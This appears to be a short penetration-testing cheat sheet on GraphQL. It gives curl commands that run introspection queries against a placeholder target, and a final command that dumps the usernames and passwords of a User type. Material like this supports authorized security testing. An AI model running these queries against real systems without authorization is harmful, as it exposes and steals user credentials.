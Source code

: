 ```yaml
---
title: "Graphql"
date: 2024-7-9
tags: ["Database Dumping", "Privilege Escalation In Databases", "Graphql", "Database"]
---
```


### Visualize Tool

```console
+---------------------------------------------------------------+
| 1. Change Schema -> Introspection -> Copy Introspection Query |
| 2. Paste query                                                |
| 3. Display                                                    |
+---------------------------------------------------------------+
```

<small>*Ref: [graphql-voyager](https://graphql-kit.com/graphql-voyager/)*</small>

### Basic Commands

```console
# Get fields from schema
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__schema{queryType{name,fields{name,description}}}}"}' | jq .
```

```console
# Get types name
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__schema{types{name}}}"}' | jq .
```

```console
# Get fields of type (e.g. User)
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__type(name:\"User\"){name,fields{name}}}"}' | jq .
```

```console
# Dump data from type (e.g. User type with fields username and password)
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{User{username,password}}"}' | jq .
```
